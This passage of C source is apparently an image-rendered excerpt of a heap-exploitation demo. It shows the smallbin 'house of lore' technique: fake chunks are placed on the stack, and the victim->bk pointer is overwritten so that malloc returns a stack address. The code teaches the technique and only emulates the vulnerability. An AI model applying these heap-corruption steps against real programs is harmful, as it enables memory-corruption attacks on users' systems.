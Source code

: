 ```c

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  fprintf(stderr, "stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  fprintf(stderr, "stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  fprintf(stderr, "Create a fake chunk on the stack\n");
  fprintf(stderr, "Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  fprintf(stderr, "Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
  
  fprintf(stderr, "Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);


  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  fprintf(stderr, "\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  fprintf(stderr, "Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  fprintf(stderr, "This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  fprintf(stderr, "The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  fprintf(stderr, "The victim chunk has been sorted and its fwd and bk pointers updated\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
  fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

```
